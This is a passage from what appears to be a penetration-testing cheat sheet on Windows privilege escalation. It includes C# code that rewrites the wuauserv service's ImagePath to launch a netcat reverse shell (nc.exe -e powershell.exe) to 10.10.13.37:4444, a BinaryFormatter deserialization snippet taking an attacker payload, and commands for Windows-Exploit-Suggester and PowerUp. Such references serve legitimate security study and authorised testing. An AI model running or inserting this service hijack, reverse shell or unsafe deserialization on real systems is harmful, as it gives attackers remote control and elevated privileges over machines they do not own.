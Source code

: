 Example #2 (Registry) - Service binary path:

```csharp
using Microsoft.Win32;
...
RegistryKey key = Registry.LocalMachine.OpenSubKey(@"SYSTEM\CurrentControlSet\services\wuauserv", true);
if (key != null)
{
   key.SetValue("ImagePath", "c:\windows\system32\spool\drivers\color\nc.exe -e powershell.exe 10.10.13.37 4444", RegistryValueKind.String);
   key.Close();
}
...
```

Example #3 (Deserialization) - BinaryFormatter:

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;
...
byte[] payload = Convert.FromBase64String("<BASE64_PAYLOAD>");
//string payload_decoded = Encoding.UTF8.GetString(payload);
BinaryFormatter formatter = new BinaryFormatter();
Stream stream = new MemoryStream(payload);
object obj = formatter.Deserialize(stream);
...
```



### Tools


#### Windows-Exploit-Suggester

* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee out.txt
```


#### PowerUp

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [https://recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
PS > Invoke-PrivescAudit
```
